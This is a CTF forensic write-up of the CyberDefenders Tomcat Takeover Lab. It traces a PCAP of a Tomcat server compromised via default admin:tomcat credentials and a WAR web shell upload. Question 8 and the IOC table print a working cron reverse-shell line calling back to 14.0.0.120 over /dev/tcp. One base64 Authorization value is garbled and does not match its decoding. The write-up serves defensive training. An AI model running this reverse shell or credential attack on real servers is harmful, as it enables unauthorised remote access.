









# Tomcat Takeover Lab — CTF Writeup

* **Platform:** CyberDefenders  
* **Challenge:** Tomcat Takeover Lab  
* **Category:** Network Forensics / Web Server Compromise  
* **Difficulty:** Easy  
* **Analyst:** Mahmoud Hussien
* **Tool:** Wireshark 
* **Artefact:** `web_server.pcap`

---

## Scenario Overview

Suspicious network activity was detected targeting an internal Apache Tomcat web server. PCAP analysis confirmed a structured, multi-phase attack originating from China: the attacker performed port scanning, directory enumeration, credential brute-forcing, malicious WAR file upload, and finally established a root-level reverse shell with cron-based persistence.

---

## Attack Chain Overview

```
[1] Reconnaissance    → Nmap port scan (19,607 packets)
[2] Service ID        → Port 8080 → Apache-Coyote/1.1 (Tomcat)
[3] Enumeration       → Gobuster v3.6 → /manager directory
[4] Brute-Force       → admin:tomcat (Basic Auth)
[5] WAR Upload        → JXQOZY.war (web shell)
[6] RCE               → Reverse shell → root
[7] Persistence       → Cron every minute → /dev/tcp/14.0.0.120/443
```

---

## Question 1 — What is the source IP responsible for the scanning activity?

### Investigation

**Wireshark:** `Statistics → Conversations → IPv4`

Sorting IPv4 conversations by packet count immediately isolated one external IP generating **19,607 packets** against the internal server — an unmistakable automated scanning signature. The volume and sequential port targeting pattern confirmed active reconnaissance tooling.

**Wireshark Filter (confirm):**

```
tcp.flags.syn == 1 && tcp.flags.ack == 0
```

### Answer

```
14.0.0.120
```




---

## Question 2 — Which country did the attacker originate from?

### Investigation

Submitted `14.0.0.120` to an external IP geolocation service (VirusTotal / ipinfo.io):

| Field | Value |
|---|---|
| Country | China |
| City | Shenzhen |
| ISP | CHINANET Guangdong province network |

### Answer

```
China
```


---

## Question 3 — Which port provides access to the web server admin panel?

### Investigation

**Wireshark Filter:**

```
tcp.port == 8080
```

Filtering for traffic on common alternative web ports and reviewing HTTP response banners revealed an active listener on port `8080`. The HTTP response header explicitly identified the backend technology:

```
Server: Apache-Coyote/1.1
```

`Apache-Coyote/1.1` is the HTTP connector used by **Apache Tomcat** — the application server hosting the administrative Manager panel at `/manager/html`.

### Answer

```
8080
```


---

## Question 4 — Which tool did the attacker use for directory enumeration?

### Investigation

**Wireshark Filter:**

```
http.user_agent contains "gobuster"
```

Following the port scan, the attacker launched an automated directory brute-force campaign. Inspecting HTTP request `User-Agent` headers identified the tool:

```
User-Agent: gobuster/3.6
```

**Gobuster** fires sequential wordlist requests against the target — generating a high volume of `404 Not Found` responses for non-existent paths until valid directories are discovered.

### Answer

```
gobuster
```


---

## Question 5 — Which specific directory related to the admin panel did the attacker uncover?

### Investigation

**Wireshark Filter:**

```
http.request.uri contains "/manager/html"
```

Among Gobuster's successful hits, the Tomcat Manager application path was discovered — returning `HTTP 401 Unauthorized` (authentication required), signaling an active admin panel. The attacker subsequently shifted from GET enumeration to targeted POST requests against:

```
/manager/html        ← Admin panel login
/manager/html/upload ← WAR file deployment endpoint
```

### Answer

```
/manager
```


---

## Question 6 — What credentials did the attacker successfully use for login?

### Investigation

**Wireshark Filter:**

```
http.request.method == "POST" && http.authorization
```

After identifying the admin panel, the attacker launched a credential brute-force attack using Basic Access Authentication. Filtering for the first successful `HTTP 200 OK` response to `/manager/html` and inspecting the `Authorization` header:

```
Authorization: Basic YWRtaW46tomcat
```

Decoding via CyberChef (From Base64):

```
YWRtaW46dG9tY2F0 → admin:tomcat
```

These are the **default Apache Tomcat credentials** — never changed after deployment.

### Answer

```
admin:tomcat
```


---

## Question 7 — What is the name of the malicious file uploaded by the attacker?

### Investigation

**Wireshark Filter:**

```
http.request.method == "POST" && http.request.uri contains "upload"
```

Authenticated as admin, the attacker used Tomcat's built-in application deployment feature (`deployWar`) to upload a malicious Java Web Archive. Following the HTTP POST stream to `/manager/html/upload`, the multipart form-data body contained:

```
Content-Disposition: form-data; name="deployWar"; filename="JXQOZY.war"
Content-Type: application/octet-stream
```

A `.war` (Web Application Archive) file is a packaged Java web application. By deploying it through Tomcat Manager, the attacker made the web shell accessible at `/JXQOZY/` — any HTTP request to this path would execute the embedded shell.

### Answer

```
JXQOZY.war
```


---

## Question 8 — What command did the attacker schedule for persistence?

### Investigation

After the WAR file was deployed, the attacker triggered the web shell to obtain an interactive reverse shell with `root` privileges. Examining the web shell interaction stream and terminal commands:

```bash
whoami        # → root
cd /tmp
crontab -i    # inject persistence
```

The crontab entry injected:

```
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
```

**Technical Breakdown:**

| Component | Purpose |
|---|---|
| `* * * * *` | Runs every minute, every hour, every day |
| `/bin/bash -c` | Invokes Bash interpreter |
| `bash -i` | Opens interactive shell |
| `>& /dev/tcp/14.0.0.120/443` | Redirects all I/O to TCP socket → attacker |
| `0>&1` | Merges stdin with stdout |
| Port `443` | Disguised as HTTPS traffic to evade firewall rules |

### Answer

```
/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
```


---

## Full Attack Timeline

| Phase | Event | Tool / Method |
|---|---|---|
| 1 | TCP port scan — 19,607 packets | Nmap |
| 2 | Port 8080 identified → Tomcat banner | HTTP GET / |
| 3 | Directory brute-force → `/manager` found | Gobuster v3.6 |
| 4 | Admin panel targeted → `/manager/html` | HTTP GET |
| 5 | Credential brute-force → `admin:tomcat` | Basic Auth |
| 6 | WAR upload → `JXQOZY.war` deployed | Tomcat deployWar |
| 7 | Web shell triggered → reverse shell as `root` | `/JXQOZY/` |
| 8 | Cron persistence → every 60 seconds | `crontab -i` |

---

## Indicators of Compromise (IOCs)

| Type | Value | Description |
|---|---|---|
| IP | `14.0.0.120` | Attacker source IP (Shenzhen, China) |
| IP | `10.0.0.112` | Victim Apache Tomcat server |
| Port | `8080/TCP` | Tomcat admin panel port |
| Port | `443/TCP` | Reverse shell callback port |
| Credentials | `admin:tomcat` | Default Tomcat credentials |
| Auth Token | `YWRtaW46dG9tY2F0` | Base64-encoded credential |
| File | `JXQOZY.war` | Malicious WAR web shell |
| Path | `/manager/html` | Tomcat admin panel |
| Path | `/manager/html/upload` | WAR deployment endpoint |
| Cron | `* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'` | Persistence mechanism |

---

## Key Wireshark Filters Reference

```
-- Identify attacker conversations
ip.addr == 14.0.0.120

-- SYN scan detection
tcp.flags.syn == 1 && tcp.flags.ack == 0

-- Tomcat service on port 8080
tcp.port == 8080

-- Gobuster enumeration
http.user_agent contains "gobuster"

-- Admin panel access
http.request.uri contains "/manager/html"

-- Credential brute-force (POST requests)
http.request.method == "POST" && http.authorization

-- WAR file upload
http.request.method == "POST" && http.request.uri contains "upload"

-- Full attacker HTTP traffic
ip.src == 14.0.0.120 && http
```

---

## MITRE ATT&CK Mapping

| Phase | Technique ID | Technique Name |
|---|---|---|
| Reconnaissance | T1595.001 | Active Scanning: Port Scan (Nmap) |
| Discovery | T1595.003 | Active Scanning: Wordlist Scan (Gobuster) |
| Initial Access | T1190 | Exploit Public-Facing Application |
| Initial Access | T1078.001 | Valid Accounts: Default Accounts |
| Persistence | T1505.003 | Server Software Component: Web Shell |
| Persistence | T1053.003 | Scheduled Task/Job: Cron |
| Execution | T1059.004 | Unix Shell (reverse bash shell) |
| Command & Control | T1071.001 | Web Protocols (reverse shell over port 443) |
| Privilege Escalation | T1548 | Abuse Elevation Control Mechanism (root shell) |

---

## Recommendations

1. **Change default Tomcat credentials immediately** — `admin:tomcat` is the factory default and appears in every public wordlist. Enforce strong passwords and disable unused default accounts.
2. **Restrict Tomcat Manager access by IP** — The `/manager` endpoint should only be accessible from trusted internal admin IPs, never from the internet. Use `context.xml` to enforce IP-based access control.
3. **Implement account lockout on web panels** — After 5 failed Basic Auth attempts, return `429 Too Many Requests` and block the source IP temporarily.
4. **Validate WAR file uploads** — Restrict WAR deployments to digitally signed packages from an approved CI/CD pipeline. Never allow arbitrary WAR uploads from the admin panel in production.
5. **Monitor crontab modifications** — Any write to `/etc/cron*` or user crontabs outside of scheduled maintenance windows should trigger an immediate alert.
6. **Block outbound connections from the web server** — A web server should never initiate outbound TCP connections. Enforce egress firewall rules to block `bash` from opening `/dev/tcp` sockets.
7. **Geo-block China IP ranges** — If no legitimate traffic originates from CHINANET, block the `14.0.0.0/8` range or implement geo-IP filtering at the perimeter.

---

*Writeup produced as part of SOC Analyst training — CyberDefenders: Tomcat Takeover Lab*